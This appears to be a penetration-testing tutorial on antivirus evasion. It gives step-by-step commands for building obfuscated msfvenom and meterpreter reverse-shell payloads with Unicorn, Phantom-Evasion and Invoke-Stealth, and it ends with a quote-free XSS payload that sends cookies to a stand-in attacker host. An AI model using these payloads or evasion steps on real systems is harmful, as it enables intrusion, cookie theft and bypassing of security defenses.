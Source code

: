 
<img width="900" alt="Anti-Virus-Evasion-Tools" src="https://github.com/deryacortuk/Penetration-Testing-Tutorial/assets/53267226/160f278e-0c56-4857-986d-463d4b04f07f">

## Bypassing Windows Defender with hoaxshell and AMSI trigger

HoaxShell and AMSI bypass techniques are commonly employed by malicious individuals as part of their offensive security tactics. HoaxShell serves as a robust framework specifically designed to circumvent multiple security controls, notably including the Antimalware Scan Interface (AMSI) trigger. By utilizing HoaxShell, attackers aim to evade detection by antivirus software and other protective measures. On the other hand, AMSI, developed by Microsoft, acts as an interface for antivirus and other security solutions to scan and identify malicious
code present within active processes. It is an essential component that enables the detection of potentially harmful activities.


## Harnessing Metasploit templates and custom binaries for antivirus evasion

Metasploit is a powerful penetration testing framework which provides various templates and techniques for effective Antivirus (AV) evasion. These templates offer options like code obfuscation, polymorphism, and packing to create custom payloads that are less likely to be flagged by AV software. By leveraging the versatile capabilities of Metasploit, practitioners can significantly improve their chances of successfully evading AV defenses. This allows pen testers for more
comprehensive security assessments and testing.

## Baseline

Baseline payload To establish a baseline, we will generate the standard msfvenon reverse shell payload for a 32-bit Windows system using the command msfvenom -p windows/shell_reverse_tcp LHOST=192.168.29.15 LPORT=4444 -f exe >
basepayload.exe.

Metasploit’s vast collection of exploits, payloads, and evasion techniques enables successful system compromise by evading AV detection. Utilizing advanced evasion techniques reduces detection rates,
enhancing the effectiveness of security assessments.

## Shellter

Shellter is an advanced and dynamic shellcode injection tool which is widely utilized in red teaming engagements and security assessments carried out by penetration testers and ethical hackers. Its main objective is to evade AV software and IDS. Shellter achieves this by employing dynamic encryption or encoding techniques for payloads.
Using the technique known as process hollowing, Shellter injects malicious shellcode into the memory space of legitimate processes. Moreover, researchers can leverage this tool to evaluate the effectiveness of security controls and identify
potential vulnerabilities in an organization’s defense mechanisms.
Shellter’s unique and powerful feature is dynamic binary instrumentation and injection, allowing seamless payload injection into Windows executables, evading antivirus and intrusion detection systems
effectively.

## Unicorn

The utilization of Magic Unicorn is a straightforward tool which involves
executing a PowerShell downgrade attack and directly injecting shellcode into the system’s memory. The usage process is uncomplicated: by launching Magic Unicorn (ensuring the presence of Metasploit in the correct path if opting for Metasploit methods), the tool automatically generates a PowerShell command. All that is required is to copy and paste this generated code into a command line
window or a payload delivery system for seamless execution.
1. Clone Unicorn by running the command git clone github.com/trustedsec/unicorn

2.Next, navigate to the new Unicorn directory using the command cd
unicorn. To view the available Unicorn options and comprehensive
descriptions of each attack, use the command ./unicorn.py --help
3.To create a payload with Unicorn, use the following command:
./unicorn.py windows/meterpreter/reverse_tcp <Listener IP>
<Listener Port>

Unicorn excels in generating undetectable payload executables through powerful encoding and obfuscation techniques, enabling seamless exploitation of target systems while evading antivirus and
security solutions.

## Phantom-Evasion

Phantom-Evasion is a python-based tool designed for antivirus evasion purposes. It has the capability to generate executable files that are highly difficult to detect, even when using the widely used x86 msfvenom payload.

1. Begin by downloading the tool using the command git clone https://github.com/oddcod3/Phantom-Evasion.git
2. Navigate to the Phantom-Evasion folder by executing the command cd /phantom-evasion. Grant executable permissions and set up the required dependencies by running the commands chmod +x ./phantom-evasion.py and ./phantom-evasion.py --setup
3.Generate the payload using the following command: python3 phantomevasion.py -m WSI -msfp windows/meterpreter/reverse_tcp -H 192.168.29.15 -P 4444 -i Thread -e 4 -mem Virtual_RWX -j 1 -J 15 -
jr 0 -E 5 -f exe -o PhEv.exe
Phantom Evasion’s exceptional polymorphic engine and payload
generation capabilities empower penetration testers to create undetectable payloads, bypassing antivirus software and security controls for successful system infiltration.

## Invoke-Stealth

This tool helps you to automate the obfuscation process of any script written in PowerShell with different techniques. You can use any of them separately, together or all of them sequentially with ease, from Windows or Linux.

1. Begin by downloading Invoke-Stealth. Execute the command git clone
https://github.com/JoelGMSec/Invoke-Stealth.git to download the tool.


2. Navigate to the Invoke-Stealth folder using the command cd InvokeStealth. Run the command pwsh Invoke-Stealth.ps1 --help to explore the available obfuscation techniques and other utilities.
3.Use the following command: msfvenom -p windows/powershell_reverse_tcp
LHOST=192.168.29.15 LPORT=4444 -e x86/shikata_ga_nai -f psh -o
payloadummed.ps1.
4. Execute the following command pwsh Invoke-Stealth.ps1
/home/ummedmeel/Desktop/payloadummedm.ps1 -technique All.

Invoke-Stealth generates stealthy PowerShell scripts using
obfuscation and encryption to evade antivirus detection and execute covert operations.

# XSS payload
This means you can construct an XSS payload without quotes, like this:
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 
47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 
101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
The String.fromCharCode() function returns a string, given an input list 
of ASCII character codes. 

